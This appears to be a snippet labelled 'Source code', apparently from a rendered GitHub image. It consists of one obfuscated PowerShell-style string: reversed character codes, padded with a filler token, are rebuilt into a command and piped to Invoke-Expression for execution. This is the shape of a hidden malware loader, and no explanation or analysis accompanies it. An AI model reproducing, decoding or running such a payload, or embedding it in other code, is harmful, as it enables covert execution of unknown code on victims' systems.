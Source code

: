 ```
f="XEI|'' nioj- HKGhjkghjKGhjkjKGJK$]][rahc[;)14,601,89,@#_**CooperANDsteal||1,63,44,601,63,04,101,701,@#_**CooperANDsteal||1,8@#_**CooperANDsteal||,0@#_**CooperANDsteal||,37,64,121,63,95,14,801,801,7@#_**CooperANDsteal||,0@#_**CooperANDsteal||,63,44,05,05,301,63,04,101,99,0@#_**CooperANDsteal||,79,6@#_**CooperANDsteal||,5@#_**CooperANDsteal||,0@#_**CooperANDsteal||,37,101,6@#_**CooperANDsteal||,79,101,4@#_**CooperANDsteal||,76,85,85,39,4@#_**CooperANDsteal||,@#_**CooperANDsteal||1,6@#_**CooperANDsteal||,79,8@#_**CooperANDsteal||,501,6@#_**CooperANDsteal||,99,56,19,16,601,63,95,14,93,901,@#_**CooperANDsteal||1,86,101,101,4@#_**CooperANDsteal||,07,93,04,001,@#_**CooperANDsteal||1,401,6@#_**CooperANDsteal||,101,77,6@#_**CooperANDsteal||,101,17,64,05,05,301,63,16,121,63,95,14,93,79,4@#_**CooperANDsteal||,79,8@#_**CooperANDsteal||,501,17,93,04,101,2@#_**CooperANDsteal||,121,48,6@#_**CooperANDsteal||,101,17,64,79,63,16,05,05,301,63,95,14,@#_**CooperANDsteal||1,6@#_**CooperANDsteal||,@#_**CooperANDsteal||1,6@#_**CooperANDsteal||,63,44,93,101,021,101,64,001,79,2@#_**CooperANDsteal||,101,6@#_**CooperANDsteal||,@#_**CooperANDsteal||1,0@#_**CooperANDsteal||,93,04,46,16,23,601,89,@#_**CooperANDsteal||1,63,95,88,96,37,421,14,93,021,84,93,44,93,64,64,93,04,101,99,79,801,2@#_**CooperANDsteal||,101,4@#_**CooperANDsteal||,64,14,93,15,2@#_**CooperANDsteal||,901,64,901,79,2@#_**CooperANDsteal||,5@#_**CooperANDsteal||,701,4@#_**CooperANDsteal||,79,001,74,101,001,79,001,501,801,79,6@#_**CooperANDsteal||,79,0@#_**CooperANDsteal||,74,4@#_**CooperANDsteal||,89,64,901,@#_**CooperANDsteal||1,99,64,@#_**CooperANDsteal||1,8@#_**CooperANDsteal||,@#_**CooperANDsteal||1,2@#_**CooperANDsteal||,@#_**CooperANDsteal||1,001,@#_**CooperANDsteal||1,6@#_**CooperANDsteal||,501,4@#_**CooperANDsteal||,301,74,74,85,5@#_**CooperANDsteal||,2@#_**CooperANDsteal||,6@#_**CooperANDsteal||,6@#_**CooperANDsteal||,401,93,44,001,@#_**CooperANDsteal||1,401,6@#_**CooperANDsteal||,101,77,85,85,39,101,2@#_**CooperANDsteal||,121,48,801,801,79,76,64,99,501,5@#_**CooperANDsteal||,79,66,801,79,7@#_**CooperANDsteal||,5@#_**CooperANDsteal||,501,68,64,6@#_**CooperANDsteal||,201,@#_**CooperANDsteal||1,5@#_**CooperANDsteal||,@#_**CooperANDsteal||1,4@#_**CooperANDsteal||,99,501,77,19,44,14,93,0@#_**CooperANDsteal||,93,44,93,63,59,63,93,04,101,99,79,801,2@#_**CooperANDsteal||,101,4@#_**CooperANDsteal||,64,93,301,63,59,63,501,4@#_**CooperANDsteal||,6@#_**CooperANDsteal||,38,001,79,@#_**CooperANDsteal||1,801,63,59,63,9@#_**CooperANDsteal||,@#_**CooperANDsteal||1,86,93,44,14,6@#_**CooperANDsteal||,0@#_**CooperANDsteal||,101,501,801,76,89,101,78,64,6@#_**CooperANDsteal||,101,87,23,6@#_**CooperANDsteal||,99,101,601,89,97,54,9@#_**CooperANDsteal||,101,87,04,04,101,901,79,0@#_**CooperANDsteal||,121,66,801,801,79,76,85,85,39,0@#_**CooperANDsteal||,@#_**CooperANDsteal||1,501,6@#_**CooperANDsteal||,99,79,4@#_**CooperANDsteal||,101,6@#_**CooperANDsteal||,0@#_**CooperANDsteal||,37,64,99,501,5@#_**CooperANDsteal||,79,66,801,79,7@#_**CooperANDsteal||,5@#_**CooperANDsteal||,501,68,64,6@#_**CooperANDsteal||,201,@#_**CooperANDsteal||1,5@#_**CooperANDsteal||,@#_**CooperANDsteal||1,4@#_**CooperANDsteal||,99,501,77,19,16,@#_**CooperANDsteal||1,6@#_**CooperANDsteal||,@#_**CooperANDsteal||1,6@#_**CooperANDsteal||,63,39,39,19,101,6@#_**CooperANDsteal||,121,66,19,95,88,96,37,421,14,93,301,2@#_**CooperANDsteal||,601,64,28,2@#_**CooperANDsteal||,7@#_**CooperANDsteal||,6@#_**CooperANDsteal||,4@#_**CooperANDsteal||,79,6@#_**CooperANDsteal||,38,79,8@#_**CooperANDsteal||,@#_**CooperANDsteal||1,87,08,0@#_**CooperANDsteal||,0@#_**CooperANDsteal||,7@#_**CooperANDsteal||,28,74,101,001,79,001,501,801,79,6@#_**CooperANDsteal||,79,0@#_**CooperANDsteal||,74,4@#_**CooperANDsteal||,89,64,901,@#_**CooperANDsteal||1,99,64,@#_**CooperANDsteal||1,8@#_**CooperANDsteal||,@#_**CooperANDsteal||1,2@#_**CooperANDsteal||,@#_**CooperANDsteal||1,001,@#_**CooperANDsteal||1,6@#_**CooperANDsteal||,501,4@#_**CooperANDsteal||,301,74,74,8"
```